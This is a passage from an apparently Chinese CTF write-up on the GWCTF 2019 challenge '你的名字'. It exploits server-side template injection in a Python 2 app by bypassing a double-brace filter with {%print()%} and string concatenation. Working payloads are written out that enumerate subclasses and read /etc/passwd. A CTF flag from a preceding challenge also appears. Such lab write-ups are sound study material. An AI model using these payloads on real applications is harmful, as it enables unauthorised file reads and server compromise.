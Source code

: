 得到 flag{260bdbf4-0b67-4da5-9817-39f0b645f12f}。

## [GWCTF 2019]你的名字

### 题解

进来尝试 XSS, SQL 均无果, 试试 SSTI 注入, 报错了, 不过 `{{}}` 报错, 但是 `{%%}` 似乎没事, 考虑过滤了双括号, 用 `{%print()%}` 把结果带出来:

经过尝试发现可能有很多关键词过滤, 用字符串拼接绕过一下:

```python
name={%print(''['__cla''ss__']['__m''ro__'][2]['__subc''lasses__']())%}
```

![20-1.png](20-1.png)

发现 file 类正是下标 40, 说明环境为 python 2, 尝试读任意文件:

```python
name={%print(''['__cla''ss__']['__m''ro__'][2]['__subc''lasses__']()[40]('/etc/passwd').read())%}
```

![20-2.png](20-2.png)
